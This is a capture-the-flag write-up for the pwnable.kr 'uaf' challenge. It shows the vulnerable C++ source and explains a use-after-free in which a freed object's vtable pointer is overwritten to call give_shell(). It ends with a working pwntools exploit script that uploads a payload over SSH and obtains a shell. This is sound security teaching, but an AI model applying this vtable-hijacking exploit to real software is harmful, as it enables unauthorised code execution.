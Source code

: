 # Overview

The C++ source code is provided:
```cpp
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

The program has a simple prompt:

![image](https://user-images.githubusercontent.com/17574533/213258352-5f714e50-e89b-4c37-9fc8-ca24e14a92d7.png)

## Option 1

Calls the `introduce` methods of Man `m` and Woman `w`

![image](https://user-images.githubusercontent.com/17574533/213817732-d639cd64-1a5f-472e-8190-c039995c2e29.png)

Source:

![image](https://user-images.githubusercontent.com/17574533/213259558-c5fb059b-0873-4199-8739-3d6913a09a0b.png)

## Option 2

Reads `argv[1]` bytes from file `argv[2]` into the buffer `data`

![image](https://user-images.githubusercontent.com/17574533/213817889-a7ff0e40-842b-47fb-ba7f-90b600d78658.png)

Source:

![image](https://user-images.githubusercontent.com/17574533/213817950-33d3ce45-5675-4698-8f6d-5cf229a324d3.png)

## Option 3

Frees frees `m` and `w` from the heap. No printed output.

Source:

![image](https://user-images.githubusercontent.com/17574533/213818392-8688383a-9335-421c-86c2-219d1a6f0546.png)

# Goal

Call `Human::give_shell()` and print the flag

![image](https://user-images.githubusercontent.com/17574533/213821928-10b16f7e-76e9-46c4-8244-c408c293bb42.png)


# Vulnerability

Dereferencing dangling pointers

Option 1 is allowed even after entering Option 3. This will dereference the dangling pointers `m` and `w`

# Observations

1. Since `Man` and `Woman` inherits `Human`, the vtable of `m` and `w` also contain an entry to `Human::give_shell()`. The entry is offset -8 from `::introduce()`

![image](https://user-images.githubusercontent.com/17574533/213825202-b1a11d02-9567-48f6-bd59-bb8186121df5.png)


2. Allocation of `m` and `w` consumes 4 chunks:
- "Jack" string is stored at chunk 0x614ea0
- `m` is stored at chunk 0x614ed0
- "Jill" string is stored at chunk 0x614ef0
- `w` is stored at chunk 0x614f20
- The first data of `m` and `w` is the vtable address

![image](https://user-images.githubusercontent.com/17574533/213845654-5f808902-5df1-4c8a-9059-c1cf0d88e653.png)

3. After freeing `m` and `w` through Option 3, all 4 chunks are freed

| Before Option 3 | After Option 3 |
| - | - |
| ![image](https://user-images.githubusercontent.com/17574533/213844416-311f9ea1-3f0e-4b53-b7ee-55b99a81410d.png) | ![image](https://user-images.githubusercontent.com/17574533/213844448-dcccbab1-ed98-4c46-8f7e-bb20892ed35f.png) |

# Exploit

After freeing `m` and `w`, write data in place of `m` and `w` such that the vtable is offset by -8. This way `Human::give_shell()` will be called instead of `::introduce()`.

![image](https://user-images.githubusercontent.com/17574533/213848490-b41e87d3-7fd9-4c3d-bcaa-1a7ffb8fe0b2.png)

Just overwriting `m`'s vtable (highlighted in image) is enough since we only need to call `give_shell()` once and man's function gets called first.

Note that the overwritten data must fit in the chunks of `m` and `w` which has the size 0x21. This is the minimum chunk size in 64 bit x86 anyway so let's write 8 bytes - just enough for the address.

Also note that since `m` is the second 0x21 chunk from top chunk, we have to allocate twice.

Concretely,
1. Calculate `Man`'s modified vtable address
`mod_vtable_addr` = 0x401570 - 8
2. Write to payload file as an 8 byte word
3. Execute `./uaf 8 {payload_file}`
4. Free memory through Option 3
5. Write data through Option 2 twice
6. Call `Human::give_shell()` through Option 1
7. `cat flag`

## Code
```python
from pwn import *

mod_vtable_addr = 0x401570 - 8
payload = p64(mod_vtable_addr)
with open("uaf_payload.txt", "wb") as f:
    f.write(payload)

remote_payload_location = "/tmp/uaf_payload.txt"
s = ssh("uaf", "pwnable.kr", 2222, "guest")
s.upload_data(payload, remote_payload_location)

p = s.system(f"./uaf 8 {remote_payload_location}")
p.sendline(b"3") # Free m and w
p.sendline(b"2") # Write address to w object
p.sendline(b"2") # Write address to m object
p.sendline(b"1") # Win
p.interactive()
```
